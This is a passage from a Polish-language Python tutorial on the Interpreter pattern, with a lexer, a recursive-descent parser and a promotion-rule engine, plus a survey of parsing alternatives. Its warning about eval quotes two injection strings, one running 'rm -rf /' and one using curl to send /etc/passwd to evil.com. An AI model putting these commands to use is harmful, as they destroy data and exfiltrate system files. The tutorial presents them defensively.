                tokeny.append(self._czytaj_zmienna())
                continue

            raise SyntaxError(
                f"nieoczekiwany znak {c!r} na pozycji {self._poz}"
            )

        tokeny.append(Token(TypTokenu.KONIEC, "", self._poz))
        return tokeny

    def _czytaj_tekst(self) -> Token:
        poczatek = self._poz
        cytat = self._tekst[self._poz]
        self._poz += 1
        start = self._poz
        while self._poz < len(self._tekst) and self._tekst[self._poz] != cytat:
            self._poz += 1
        if self._poz >= len(self._tekst):
            raise SyntaxError(
                f"niezamkniety tekst od pozycji {poczatek}"
            )
        tekst = self._tekst[start:self._poz]
        self._poz += 1
        return Token(TypTokenu.TEKST, tekst, poczatek)

    def _czytaj_liczbe(self) -> Token:
        start = self._poz
        while self._poz < len(self._tekst) and (
            self._tekst[self._poz].isdigit() or self._tekst[self._poz] == "."
        ):
            self._poz += 1
        tekst = self._tekst[start:self._poz]
        return Token(TypTokenu.LICZBA, tekst, start)

    def _czytaj_zmienna(self) -> Token:
        start = self._poz
        while self._poz < len(self._tekst) and (
            self._tekst[self._poz].isalnum() or self._tekst[self._poz] == "_"
        ):
            self._poz += 1
        tekst = self._tekst[start:self._poz]

        # Sprawdz, czy to slowo kluczowe (AND/OR/NOT)
        gorny = tekst.upper()
        if gorny in OPERATORY:
            return Token(TypTokenu.OPERATOR, gorny, start)
        return Token(TypTokenu.ZMIENNA, tekst, start)

    def _sprobuj_operator(self) -> Token | None:
        for op in ("==", "!=", ">=", "<=", ">", "<"):
            if self._tekst.startswith(op, self._poz):
                self._poz += len(op)
                return Token(TypTokenu.OPERATOR, op, self._poz - len(op))
        return None
```

Lexer to „pierwsze oko" interpretera — nie rozumie sensu, tylko dzieli. Zwróć uwagę na bogate komunikaty błędów z **pozycją**. To pomoże w diagnozie źle napisanej reguły.

### Krok 6 — Napisz parser rekurencyjny

Parser zamienia listę tokenów na drzewo. Użyjemy **parsera rekurencyjnego zejściowego** (recursive descent), który naturalnie realizuje priorytety operatorów.

```python
class Parser:
    """Parser zejscia rekurencyjnego.

    Gramatyka (od najnizszego do najwyzszego priorytetu):
      wyrazenie  := logical_or
      logical_or := logical_and (OR logical_and)*
      logical_and:= logical_not (AND logical_not)*
      logical_not:= NOT logical_not | porownanie
      porownanie := primary (op primary)?
      primary    := LICZBA | TEKST | ZMIENNA | (wyrazenie)
    """

    def __init__(self, tokeny: list[Token]) -> None:
        self._tokeny = tokeny
        self._poz = 0

    def _aktualny(self) -> Token:
        return self._tokeny[self._poz]

    def _zjedz(self, typ: TypTokenu) -> Token:
        tok = self._aktualny()
        if tok.typ != typ:
            raise SyntaxError(
                f"oczekiwano {typ.value}, dostano {tok.typ.value} "
                f"({tok.wartosc!r}) na pozycji {tok.pozycja}"
            )
        self._poz += 1
        return tok

    def parsuj(self) -> Wyrazenie:
        wynik = self._wyrazenie()
        if self._aktualny().typ != TypTokenu.KONIEC:
            tok = self._aktualny()
            raise SyntaxError(
                f"nieoczekiwany token {tok.wartosc!r} na pozycji {tok.pozycja}"
            )
        return wynik

    def _wyrazenie(self) -> Wyrazenie:
        return self._logical_or()

    def _logical_or(self) -> Wyrazenie:
        lewa = self._logical_and()
        while (
            self._aktualny().typ == TypTokenu.OPERATOR
            and self._aktualny().wartosc == "OR"
        ):
            self._poz += 1
            prawa = self._logical_and()
            lewa = Or(lewa, prawa)
        return lewa

    def _logical_and(self) -> Wyrazenie:
        lewa = self._logical_not()
        while (
            self._aktualny().typ == TypTokenu.OPERATOR
            and self._aktualny().wartosc == "AND"
        ):
            self._poz += 1
            prawa = self._logical_not()
            lewa = And(lewa, prawa)
        return lewa

    def _logical_not(self) -> Wyrazenie:
        if (
            self._aktualny().typ == TypTokenu.OPERATOR
            and self._aktualny().wartosc == "NOT"
        ):
            self._poz += 1
            return Not(self._logical_not())
        return self._porownanie()

    def _porownanie(self) -> Wyrazenie:
        lewa = self._primary()
        tok = self._aktualny()
        if tok.typ == TypTokenu.OPERATOR and tok.wartosc in (
            "==", "!=", ">", "<", ">=", "<=",
        ):
            self._poz += 1
            prawa = self._primary()
            return self._zrob_porownanie(tok.wartosc, lewa, prawa)
        return lewa

    def _zrob_porownanie(
        self, op: str, lewa: Wyrazenie, prawa: Wyrazenie
    ) -> Wyrazenie:
        if op == "==":
            return Rowne(lewa, prawa)
        if op == ">":
            return Wieksze(lewa, prawa)
        if op == "<":
            return Mniejsze(lewa, prawa)
        if op == ">=":
            return WiekszeRówne(lewa, prawa)
        if op == "<=":
            return MniejszeRówne(lewa, prawa)
        if op == "!=":
            return Not(Rowne(lewa, prawa))
        raise ValueError(f"nieznany operator: {op}")

    def _primary(self) -> Wyrazenie:
        tok = self._aktualny()
        if tok.typ == TypTokenu.NAWIAS_OTW:
            self._poz += 1
            wynik = self._wyrazenie()
            self._zjedz(TypTokenu.NAWIAS_ZAM)
            return wynik
        if tok.typ == TypTokenu.LICZBA:
            self._poz += 1
            if "." in tok.wartosc:
                return Literal(Decimal(tok.wartosc))
            return Literal(Decimal(tok.wartosc))
        if tok.typ == TypTokenu.TEKST:
            self._poz += 1
            return Literal(tok.wartosc)
        if tok.typ == TypTokenu.ZMIENNA:
            self._poz += 1
            if tok.wartosc == "True":
                return Literal(True)
            if tok.wartosc == "False":
                return Literal(False)
            return Zmienna(tok.wartosc)
        raise SyntaxError(
            f"nieoczekiwany token na pozycji {tok.pozycja}: {tok.wartosc!r}"
        )
```

Zwróć uwagę na strukturę parsera. **Każda metoda odpowiada jednemu poziomowi priorytetu w gramatyce**. `_logical_or` woła `_logical_and`, ten woła `_logical_not`, ten woła `_porownanie`, ten `_primary`. To klasyczna **gramatyka wyrażeniowa**, gdzie priorytety są zakodowane w łańcuchu wywołań — od najniższego do najwyższego. Nie trzeba żadnych „prymitywów", wystarczy głębokość rekurencji.

### Krok 7 — Zbuduj fasadowy interfejs

Fasada — jedno wejście do „skompilowania" i „wyewaluowania" reguły.

```python
@dataclass(frozen=True)
class SkompilowanaRegula:
    """Regula po sparsowaniu - drzewo + oryginalny tekst."""
    zrodlo: str
    drzewo: Wyrazenie

    def interpretuj(self, ctx: Kontekst) -> bool:
        wynik = self.drzewo.interpret(ctx)
        return bool(wynik)


class SilnikRegul:
    """Fasada: kompiluje i ewaluuje reguly."""

    def skompiluj(self, tekst: str) -> SkompilowanaRegula:
        lexer = Lexer(tekst)
        tokeny = lexer.tokenizuj()
        parser = Parser(tokeny)
        drzewo = parser.parsuj()
        return SkompilowanaRegula(zrodlo=tekst, drzewo=drzewo)

    def dopasuj(self, tekst: str, ctx: Kontekst) -> bool:
        regula = self.skompiluj(tekst)
        return regula.interpretuj(ctx)
```

### Krok 8 — Weryfikacja

| Kryterium | Wersja „przed" | Wersja „po" |
|---|---|---|
| Gramatyka | Niejawana, w kolejności `if`ów | Jawna: `or → and → not → porównanie → primary` |
| Priorytety | Zależne od kolejności `if` | Poprawne, jak w normalnych językach |
| Nawiasy | Nie działają | Działają |
| Komunikaty błędów | „nieznany wzorzec" | Z pozycją i typem tokenu |
| Rozszerzalność | Nowy `if` na każdy operator | Nowa klasa + wpięcie w parser |
| Bezpieczeństwo | Brak `eval` — OK | Brak `eval` — OK |
| Typy wartości | Wszystko string | `Decimal`, `str`, `bool` |
| Skalowanie | O(N ifów) | O(N klas wyrażeń) |
| Liczba klas | 1 | ~15 |

Koszt: dużo klas i dużo kodu. Zysk: pełna gramatyka, priorytety, nawiasy, diagnostyka. **Dla sklepu z wieloma zmieniającymi się regułami marketingowymi — to opłacalne**. Dla trzech reguł na sztywno — to przesada.

---

## 4. Wersje pythoniczne i warianty

Ta sekcja omawia kluczowe alternatywy. W praktyce **jedną z nich wybierzesz** — własny interpreter tylko wtedy, gdy żadna nie pasuje.

### 4.1 `ast` + `ast.literal_eval` — bezpieczne ewaluowanie

`ast.literal_eval` przyjmuje string i ewaluuje go **tylko** jako literał Pythona — bez wykonywania kodu. To bezpieczne dla wartości.

```python
import ast

# BEZPIECZNE - ewaluuje tylko literaly (liczby, stringi, listy, slowniki)
wynik = ast.literal_eval("[1, 2, 3, 'ala']")
print(wynik)   # [1, 2, 3, 'ala']

# BEZPIECZNE - prosty int
wynik = ast.literal_eval("2 + 3")
print(wynik)   # 5

# BEZPIECZNE - literaly zagniezdzone
wynik = ast.literal_eval("{'a': 1, 'b': [2, 3]}")
print(wynik)   # {'a': 1, 'b': [2, 3]}
```

**Ale uwaga:** `ast.literal_eval` **nie obsługuje zmiennych** ani porównań. To ograniczenie — jeśli chcesz `kategoria == "elektronika"`, nie użyjesz.

### 4.2 `eval` — kiedy jest OK, kiedy NIEBEZPIECZNE

`eval` wykonuje **dowolny kod Pythona** — i to jest jego zguba.

```python
# ZLE: pokazujemy realne ryzyko wstrzykniecia kodu!
# NIGDY nie rob tak z danymi z zewnatrz!
wyrazenie = "__import__('os').system('rm -rf /')"
# eval(wyrazenie)  # katastrofa!
```

Szczególnie groźne jest wstrzyknięcie, które **wygląda niewinnie**:

```python
# ZLE: atak przez wartosc zmiennej
regula = 'kategoria == "elektronika" and __import__("subprocess").run(["curl", "evil.com/exfil?data=" + open("/etc/passwd").read()])'
```

**Kiedy `eval` jest OK?** Prawie nigdy. Wyjątek: gdy ewaluujesz kod, który sam kontrolujesz w 100% (np. dynamicznie generowany w twoim własnym kodzie, nie pochodzący od użytkownika) i w środowisku bez sieci bez zasobów. W innych przypadkach — **nigdy**.

**Kiedy `eval` jest katastrofą?** Zawsze gdy dane pochodzą od użytkownika, z konfiguracji, z zewnętrznego systemu, z formularza, z API. Nawet jeśli „to tylko wewnętrzny użytkownik" — wystarczy jedna kompromitacja konta, żeby system był zhakowany.

### 4.3 `ast` do parsowania wyrażeń z ograniczeniami

Można parsować kod Pythona przez `ast.parse` i **sprawdzać węzły**, dopuszczając tylko bezpieczne:

```python
import ast


class BezpieczneAst(ast.NodeVisitor):
    """Odwiedza AST i sprawdza, czy zawiera tylko dopuszczalne wezly."""

    DOPUSZCZALNE = {
        ast.Expression, ast.BoolOp, ast.Compare, ast.BinOp,
        ast.Constant, ast.Name, ast.And, ast.Or, ast.Not,
        ast.Eq, ast.NotEq, ast.Gt, ast.Lt, ast.GtE, ast.LtE,
        ast.Add, ast.Sub, ast.Mult, ast.Div, ast.Mod,
        ast.UnaryOp, ast.USub, ast.UAdd,
    }

    def visit(self, node):
        if type(node) not in self.DOPUSZCZALNE:
            raise ValueError(
                f"niedozwolony element kodu: {type(node).__name__}"
            )
        super().visit(node)


def bezpiecznie_ewaluuj(tekst: str, ctx: dict) -> object:
    """Parsuje i ewaluuje wyrazenie, dopuszczajac tylko bezpieczne wezly."""
    drzewo = ast.parse(tekst, mode="eval")
    BezpieczneAst().visit(drzewo)
    kod = compile(drzewo, filename="<regula>", mode="eval")
    return eval(kod, {"__builtins__": {}}, dict(ctx))
```

Zaleta: możesz używać składni Pythona — bogatej, znanej użytkownikom technicznym. Wada: **wciąż jest tu `eval`** — bezpieczeństwo zależy od tego, czy naprawdę odrzucasz wszystkie niebezpieczne węzły, czy tylko sądzisz, że odrzucasz. Ryzyko jest realne — lepiej użyć dedykowanego parsera.

**Praktyczna uwaga:** ten wzorzec bywa używany (np. w bibliotekach oceniających wyrażenia), ale wymaga **bardzo ostrożnej** implementacji `NodeVisitor`. Bezpieczniejsze jest własny parser (jak w sekcji 3) albo użycie biblioteki (jak `lark`).

### 4.4 `operator` + słownik operatorów

Do prostych przypadków zamiast klas można użyć `operator` i słownika.

```python
import operator

OPERATORY = {
    "==": operator.eq,
    "!=": operator.ne,
    ">": operator.gt,
    "<": operator.lt,
    ">=": operator.ge,
    "<=": operator.le,
    "AND": lambda a, b: bool(a) and bool(b),
    "OR": lambda a, b: bool(a) or bool(b),
    "+": operator.add,
    "-": operator.sub,
    "*": operator.mul,
    "/": operator.truediv,
}


def ewaluuj_proste(op: str, a, b) -> object:
    """Ewaluuje pare (a op b) - prosty przypadek."""
    if op not in OPERATORY:
        raise ValueError(f"nieznany operator: {op!r}")
    return OPERATORY[op](a, b)
```

To używamy do **bardzo prostych** przypadków — np. do słowników operatorów w większym parserze. Nie buduje gramatyki, tylko pojedynczą operację.

### 4.5 `re` jako minimalny interpreter wzorców

Wyrażenia regularne to **najprostszy język formalny** — sam interpreter, który Python ma wbudowany.

```python
import re

REGULA = re.compile(
    r"^(?P<zmienna>[a-z_]+)\s*"
    r"(?P<op>==|!=|>=|<=|>|<)\s*"
    r"(?P<wartosc>\d+(?:\.\d+)?|\"[^\"]*\"|\w+)$"
)

wynik = REGULA.match('kwota > 1000')
if wynik:
    print(wynik.groupdict())
    # {'zmienna': 'kwota', 'op': '>', 'wartosc': '1000'}
```

Dla **prostych reguł** to jest więcej niż wystarczające. Nie wymaga implementacji interpretera — Python ma go wbudowanego. Ale ma granice: **`re` nie poradzi sobie z zagnieżdżeniem** (np. nawiasy w wyrażeniach). Dla prostych reguł — pierwsza próba.

### 4.6 `lark` i `pyparsing` — biblioteki do gramatyk

Dla **średnich gramatyk** (5–30 reguł) własny parser to za dużo pracy. Biblioteki generatora parserów robią to za ciebie.

**`lark`** — nowoczesny, z deklaratywną gramatyką:

```python
# Przyklad lark (nie uruchamiamy, tylko pokazujemy strukture)
from lark import Lark

grammar = """
    ?start: lub
    ?lub: i ("OR" i)*
    ?i: nie ("AND" nie)*
    ?nie: "NOT" nie | porownanie
    ?porownanie: primary (OP primary)?
    ?primary: LICZBA | TEKST | ZMIENNA | "(" lub ")"
    OP: "==" | "!=" | ">" | "<" | ">=" | "<="
    LICZBA: /\\d+(\\.\\d+)?/
    TEKST: /"[^"]*"/
    ZMIENNA: /[a-z_][a-z0-9_]*/
    %import common.WS
    %ignore WS
"""

parser = Lark(grammar, start="start")
drzewo = parser.parse('kategoria == "elektronika" AND kwota > 1000')
print(drzewo.pretty())
```

**`pyparsing`** — alternatywa w stylu bardziej pythonowym:

```python
# Przyklad pyparsing
from pyparsing import (
    Word, alphas, alphanums, nums, Literal, oneOf, Group,
    Forward, Optional, QuotedString,
)

ZMIENNA = Word(alphas + "_", alphanums + "_")
LICZBA = Word(nums + ".")
TEKST = QuotedString('"') | QuotedString("'")
OP = oneOf("== != >= <= > <")
LPAR, RPAR = Literal("("), Literal(")")

wyrazenie = Forward()
primary = Group(LPAR + wyrazenie + RPAR) | LICZBA | TEKST | ZMIENNA
porownanie = primary + Optional(OP + primary)
AND = Literal("AND")
OR = Literal("OR")
NOT = Literal("NOT")

wyrazenie <<= (porownanie + Optional((AND | OR) + porownanie))
```

Zaleta: mniej kodu, sprawdzony parser, obsługa zagnieżdżenia, priorytety. Wada: dodatkowa zależność, inna składnia do nauki, mniej kontroli nad błędami.

**Kiedy lark/pyparsing zamiast własnego parsera?** Jeśli gramatyka ma **więcej niż 5–10 reguł**, użyj biblioteki. Własny parser jest tylko dla naprawdę prostych gramatyk.

### 4.7 `ply` — starsza, ale dojrzała

`ply` (Python Lex-Yacc) — starsza biblioteka wzorowana na klasycznym `lex/yacc`. Dla **większych gramatyk** (jak języka programowania).

Użyta głównie wtedy, gdy twoja gramatyka ma wiele tokenów i wiele reguł. Dla 5–20 reguł — `lark` albo `pyparsing` są wygodniejsze.

### 4.8 JSONPath i wyrażenia zapytań

Bardzo realny przypadek użycia — filtrowanie danych JSON.

```python
# Przyklad uzycia jsonpath-ng
from jsonpath_ng import parse

dane = {
    "zamowienia": [
        {"id": 1, "kwota": 100, "lojalny": True},
        {"id": 2, "kwota": 2500, "lojalny": False},
    ]
}

filtruj = parse("$.zamowienia[?(@.kwota > 1000)]")
wynik = filtruj.find(dane)
print([m.value for m in wynik])
# [{'id': 2, 'kwota': 2500, 'lojalny': False}]
```

**To jest bardzo powszechny przypadek użycia**. Zamiast pisać własny interpreter do filtrowania, użyj `jsonpath-ng`. To realizacja Interpretera (wewnętrznie), ale już gotowa.

### 4.9 Podsumowanie — tabela wyboru

| Sytuacja | Narzędzie |
|---|---|
| Ewaluacja literału (lista, dict) | `ast.literal_eval` (4.1) |
| Własny język z 3–5 regułami | `re` (4.5) |
| Własny język z 5–20 regułami | `lark` / `pyparsing` (4.6) |
| Własny język z 20+ regułami | `ply` (4.7) |
| Filtrowanie JSON | `jsonpath-ng` (4.8) |
| Wyrażenia w danych zaufanych | `ast` + ograniczone węzły (4.3) |
| Prosta arytmetyka w locie | `operator` + słownik (4.4) |
| **Własny interpreter** | Ostatnia deska ratunku (sekcja 3) |

> 🧠 **Zapamiętaj** — W Pythonie **rzadko** pisze się własny interpreter od zera. Zwykle wybiera się jedno z trzech: (1) `re` dla prostych wzorców, (2) `lark`/`pyparsing` dla średnich gramatyk, (3) `jsonpath`/`ast.literal_eval` dla konkretnych użyć. Własny interpreter ma sens, gdy: gramatyka jest **naprawdę** mała (< 5 reguł), albo żadne z powyższych nie pasuje, albo budujesz narzędzie, dla którego parser to element dziedziny (np. wyrażenia matematyczne).

---

## 5. Przykład z życia: 🛒 Sklep — pełny uruchamialny kod

Zbudujemy pełny system reguł promocyjnych dla sklepu. Marketing pisze reguły tekstowo, system je parsuje i ewaluuje. Zastosujemy pełny Interpreter z lexerem i parserem.

### Kod

```python
# sklep_interpreter.py — pelny przyklad Interpreter
from __future__ import annotations

from dataclasses import dataclass
from decimal import Decimal
from enum import Enum
from typing import Protocol


# ===========================================================================
# 1. Kontekst - dane, wobec ktorych ewaluujemy reguly
# ===========================================================================

@dataclass(frozen=True)
class Zamowienie:
    kategoria: str
    kwota: Decimal
    lojalny: bool = False
    nowy_klient: bool = False
    kupon: str | None = None
    liczba_produktow: int = 0

    def jako_kontekst(self) -> dict[str, object]:
        return {
            "kategoria": self.kategoria,
            "kwota": self.kwota,
            "lojalny": self.lojalny,
            "nowy_klient": self.nowy_klient,
            "kupon": self.kupon or "",
            "liczba_produktow": self.liczba_produktow,
        }


# ===========================================================================
# 2. Kontrakt i drzewo wyrazen
# ===========================================================================

Kontekst = dict[str, object]


class Wyrazenie(Protocol):
    def interpret(self, ctx: Kontekst) -> object: ...


# --- Liscie ---

@dataclass(frozen=True)
class Literal:
    wartosc: object

    def interpret(self, ctx: Kontekst) -> object:
        return self.wartosc


@dataclass(frozen=True)
class Zmienna:
    nazwa: str

    def interpret(self, ctx: Kontekst) -> object:
        try:
            return ctx[self.nazwa]
        except KeyError as blad:
            raise NameError(
                f"nieznana zmienna {self.nazwa!r}; dostepne: "
                f"{sorted(ctx)}"
            ) from blad


# --- Operatory logiczne ---

@dataclass(frozen=True)
class And:
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        if not self.lewa.interpret(ctx):
            return False
        return bool(self.prawa.interpret(ctx))


@dataclass(frozen=True)
class Or:
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        if self.lewa.interpret(ctx):
            return True
        return bool(self.prawa.interpret(ctx))


@dataclass(frozen=True)
class Not:
    wewnatrz: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        return not self.wewnatrz.interpret(ctx)


# --- Porownania ---

def _porownaj(l: object, p: object, op: str) -> bool:
    if op == "==":
        return l == p
    if op == "!=":
        return l != p
    if op == ">":
        if isinstance(l, Decimal) and isinstance(p, Decimal):
            return l > p
        raise TypeError(
            f"operator > wymaga Decimal, dostano {type(l).__name__} i {type(p).__name__}"
        )
    if op == "<":
        if isinstance(l, Decimal) and isinstance(p, Decimal):
            return l < p
        raise TypeError(
            f"operator < wymaga Decimal, dostano {type(l).__name__} i {type(p).__name__}"
        )
    if op == ">=":
        if isinstance(l, Decimal) and isinstance(p, Decimal):
            return l >= p
        raise TypeError(
            f"operator >= wymaga Decimal, dostano {type(l).__name__} i {type(p).__name__}"
        )
    if op == "<=":
        if isinstance(l, Decimal) and isinstance(p, Decimal):
            return l <= p
        raise TypeError(
            f"operator <= wymaga Decimal, dostano {type(l).__name__} i {type(p).__name__}"
        )
    raise ValueError(f"nieznany operator: {op}")


@dataclass(frozen=True)
class Porownanie:
    lewa: Wyrazenie
    op: str
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        l = self.lewa.interpret(ctx)
        p = self.prawa.interpret(ctx)
        return _porownaj(l, p, self.op)


# --- Arytmetyka ---

@dataclass(frozen=True)
class Dodawanie:
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        return self.lewa.interpret(ctx) + self.prawa.interpret(ctx)


@dataclass(frozen=True)
class Odejmowanie:
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        return self.lewa.interpret(ctx) - self.prawa.interpret(ctx)


@dataclass(frozen=True)
class Mnozenie:
    lewa: Wyrazenie
    prawa: Wyrazenie

    def interpret(self, ctx: Kontekst) -> object:
        return self.lewa.interpret(ctx) * self.prawa.interpret(ctx)


# ===========================================================================
# 3. Tokenizer
# ===========================================================================

class TypTokenu(Enum):
    LICZBA = "LICZBA"
    TEKST = "TEKST"
    ZMIENNA = "ZMIENNA"
    OPERATOR = "OPERATOR"
    NAWIAS_OTW = "NAWIAS_OTW"
    NAWIAS_ZAM = "NAWIAS_ZAM"
    KONIEC = "KONIEC"


@dataclass(frozen=True)
class Token:
    typ: TypTokenu
    wartosc: str
    pozycja: int

    def __repr__(self) -> str:
        return f"{self.typ.value}({self.wartosc!r}@{self.pozycja})"


SLOWA_KLUCZOWE = {"AND", "OR", "NOT"}
OPERATORY_2 = ("==", "!=", ">=", "<=")
OPERATORY_1 = (">", "<", "+", "-", "*", "/")


class Lexer:
    def __init__(self, tekst: str) -> None:
        self._tekst = tekst
        self._poz = 0

    def tokenizuj(self) -> list[Token]:
        tokeny: list[Token] = []
        while self._poz < len(self._tekst):
            c = self._tekst[self._poz]
            if c.isspace():
                self._poz += 1
                continue
            if c == "(":
                tokeny.append(Token(TypTokenu.NAWIAS_OTW, "(", self._poz))
                self._poz += 1
                continue
            if c == ")":
                tokeny.append(Token(TypTokenu.NAWIAS_ZAM, ")", self._poz))
                self._poz += 1
                continue
            if c in "\"'":
                tokeny.append(self._czytaj_tekst())
                continue
            if c.isdigit():
                tokeny.append(self._czytaj_liczbe())
                continue
            if c.isalpha() or c == "_":
                tokeny.append(self._czytaj_zmienna())
                continue
            op = self._sprobuj_operator()
            if op is not None:
                tokeny.append(op)
                continue
            raise SyntaxError(
                f"nieoczekiwany znak {c!r} na pozycji {self._poz}"
            )
        tokeny.append(Token(TypTokenu.KONIEC, "", self._poz))
        return tokeny

    def _czytaj_tekst(self) -> Token:
        start = self._poz
        cytat = self._tekst[self._poz]
        self._poz += 1
        poczatek_tresci = self._poz
        while self._poz < len(self._tekst) and self._tekst[self._poz] != cytat:
            self._poz += 1
        if self._poz >= len(self._tekst):
            raise SyntaxError(f"niezamkniety tekst od pozycji {start}")
        tresc = self._tekst[poczatek_tresci:self._poz]
        self._poz += 1
        return Token(TypTokenu.TEKST, tresc, start)

    def _czytaj_liczbe(self) -> Token:
        start = self._poz
        while self._poz < len(self._tekst) and (
            self._tekst[self._poz].isdigit() or self._tekst[self._poz] == "."
        ):
            self._poz += 1
        return Token(TypTokenu.LICZBA, self._tekst[start:self._poz], start)

    def _czytaj_zmienna(self) -> Token:
        start = self._poz
        while self._poz < len(self._tekst) and (
            self._tekst[self._poz].isalnum() or self._tekst[self._poz] == "_"
        ):
            self._poz += 1
        tekst = self._tekst[start:self._poz]
        if tekst.upper() in SLOWA_KLUCZOWE:
            return Token(TypTokenu.OPERATOR, tekst.upper(), start)
        return Token(TypTokenu.ZMIENNA, tekst, start)

    def _sprobuj_operator(self) -> Token | None:
        for op in OPERATORY_2 + OPERATORY_1:
            if self._tekst.startswith(op, self._poz):
                poz = self._poz
                self._poz += len(op)
                return Token(TypTokenu.OPERATOR, op, poz)
        return None


# ===========================================================================
# 4. Parser (recursive descent)
# ===========================================================================

class Parser:
    """Gramatyka:
       wyrazenie  := lub
       lub        := i (OR i)*
       i          := nie (AND nie)*
       nie        := NOT nie | porownanie
       porownanie := suma (OP suma)?
       suma       := iloczyn ((+|-) iloczyn)*
       iloczyn    := primary ((*|/) primary)*
       primary    := LICZBA | TEKST | ZMIENNA | (wyrazenie)
    """

    def __init__(self, tokeny: list[Token]) -> None:
        self._tokeny = tokeny
        self._poz = 0

    def _aktualny(self) -> Token:
        return self._tokeny[self._poz]

    def parsuj(self) -> Wyrazenie:
        wynik = self._lub()
        tok = self._aktualny()
        if tok.typ != TypTokenu.KONIEC:
            raise SyntaxError(
                f"nieoczekiwany token {tok.wartosc!r} na pozycji {tok.pozycja}"
            )
        return wynik

    def _lub(self) -> Wyrazenie:
        lewa = self._i()
        while (
            self._aktualny().typ == TypTokenu.OPERATOR
            and self._aktualny().wartosc == "OR"
        ):
            self._poz += 1
            lewa = Or(lewa, self._i())
        return lewa

    def _i(self) -> Wyrazenie:
        lewa = self._nie()
        while (
            self._aktualny().typ == TypTokenu.OPERATOR
            and self._aktualny().wartosc == "AND"
        ):
            self._poz += 1
            lewa = And(lewa, self._nie())
        return lewa

    def _nie(self) -> Wyrazenie:
        tok = self._aktualny()
        if tok.typ == TypTokenu.OPERATOR and tok.wartosc == "NOT":
            self._poz += 1
            return Not(self._nie())
        return self._porownanie()

    def _porownanie(self) -> Wyrazenie:
        lewa = self._suma()
        tok = self._aktualny()
        if tok.typ == TypTokenu.OPERATOR and tok.wartosc in (
            "==", "!=", ">", "<", ">=", "<=",
        ):
            self._poz += 1
            prawa = self._suma()
            return Porownanie(lewa, tok.wartosc, prawa)
        return lewa

    def _suma(self) -> Wyrazenie:
        lewa = self._iloczyn()
        while (
            self._aktualny().typ == TypTokenu.OPERATOR
            and self._aktualny().wartosc in ("+", "-")
        ):
            op = self._aktualny().wartosc
            self._poz += 1
            prawa = self._iloczyn()
            lewa = Dodawanie(lewa, prawa) if op == "+" else Odejmowanie(lewa, prawa)
        return lewa

    def _iloczyn(self) -> Wyrazenie:
        lewa = self._primary()
        while (
            self._aktualny().typ == TypTokenu.OPERATOR
            and self._aktualny().wartosc in ("*", "/")
        ):
            op = self._aktualny().wartosc
            self._poz += 1
            prawa = self._primary()
            if op == "*":
                lewa = Mnozenie(lewa, prawa)
            else:
                raise NotImplementedError("dzielenie nie zaimplementowane")
        return lewa

    def _primary(self) -> Wyrazenie:
        tok = self._aktualny()
        if tok.typ == TypTokenu.NAWIAS_OTW:
            self._poz += 1
            wynik = self._lub()
            if self._aktualny().typ != TypTokenu.NAWIAS_ZAM:
                raise SyntaxError(
                    f"brak zamkniecia nawiasu od pozycji {tok.pozycja}"
                )
            self._poz += 1
            return wynik
        if tok.typ == TypTokenu.LICZBA:
            self._poz += 1
            return Literal(Decimal(tok.wartosc))
        if tok.typ == TypTokenu.TEKST:
            self._poz += 1
            return Literal(tok.wartosc)
        if tok.typ == TypTokenu.ZMIENNA:
            self._poz += 1
            if tok.wartosc == "True":
                return Literal(True)
            if tok.wartosc == "False":
                return Literal(False)
            return Zmienna(tok.wartosc)
        raise SyntaxError(
            f"nieoczekiwany token {tok.wartosc!r} na pozycji {tok.pozycja}"
        )


# ===========================================================================
# 5. Fasada
# ===========================================================================

@dataclass(frozen=True)
class SkompilowanaRegula:
    zrodlo: str
    drzewo: Wyrazenie

    def interpretuj(self, ctx: Kontekst) -> bool:
        return bool(self.drzewo.interpret(ctx))


class SilnikRegul:
    """Fasada: kompiluje i ewaluuje reguly (z cache)."""

    def __init__(self) -> None:
        self._cache: dict[str, SkompilowanaRegula] = {}

    def skompiluj(self, tekst: str) -> SkompilowanaRegula:
        if tekst not in self._cache:
            lexer = Lexer(tekst)
            parser = Parser(lexer.tokenizuj())
            drzewo = parser.parsuj()
            self._cache[tekst] = SkompilowanaRegula(tekst, drzewo)
        return self._cache[tekst]

    def dopasuj(self, regula: str, zamowienie: Zamowienie) -> bool:
        sk = self.skompiluj(regula)
        return sk.interpretuj(zamowienie.jako_kontekst())


# ===========================================================================
# 6. Demonstracja
# ===========================================================================

if __name__ == "__main__":
    silnik = SilnikRegul()

    zarzadzenia = [
        Zamowienie("elektronika", Decimal("1500.00"), lojalny=True),
        Zamowienie("odziez", Decimal("800.00"), lojalny=False),
        Zamowienie("elektronika", Decimal("600.00"), nowy_klient=True),
    ]

    reguly = [
        'kategoria == "elektronika"',
        'kategoria == "elektronika" AND kwota > 1000',
        'kategoria == "elektronika" AND (kwota > 1000 OR lojalny == True)',
        'NOT lojalny AND kwota > 500',
        'kupon == "PROMO10" OR nowy_klient == True',
    ]

    print("=== Reguly marketingowe ===")
    for tekst in reguly:
        drzewo = silnik.skompiluj(tekst).drzewo
        print(f"  {tekst!r} -> {type(drzewo).__name__}")

    print("\n=== Ewaluacja ===")
    for i, z in enumerate(zarzadzenia, 1):
        print(f"\nZamowienie {i}: {z}")
        for regula in reguly:
            wynik = silnik.dopasuj(regula, z)
            znacznik = "TAK" if wynik else "NIE"
            print(f"  [{znacznik}] {regula}")

    print("\n=== Priorytety dzialaja ===")
    z = Zamowienie("elektronika", Decimal("500.00"), lojalny=False)
    # AND wiaze mocniej niz OR
    print(f"  'lojalny OR kwota > 1000 AND kategoria == \"elektronika\"'")
    print(f"  -> {silnik.dopasuj('lojalny OR kwota > 1000 AND kategoria == \"elektronika\"', z)}")
    # Nawiasy zmieniaja wynik
    print(f"  '(lojalny OR kwota > 1000) AND kategoria == \"elektronika\"'")
    print(f"  -> {silnik.dopasuj('(lojalny OR kwota > 1000) AND kategoria == \"elektronika\"', z)}")

    print("\n=== Bledy parsera - jasne komunikaty ===")
    for zly in ('kategoria ==', 'kategoria =="elektronika" AND', '(kategoria'):
        try:
            silnik.skompiluj(zly)
        except SyntaxError as blad:
            print(f"  {zly!r} -> {blad}")
```

### Co ten przykład pokazuje

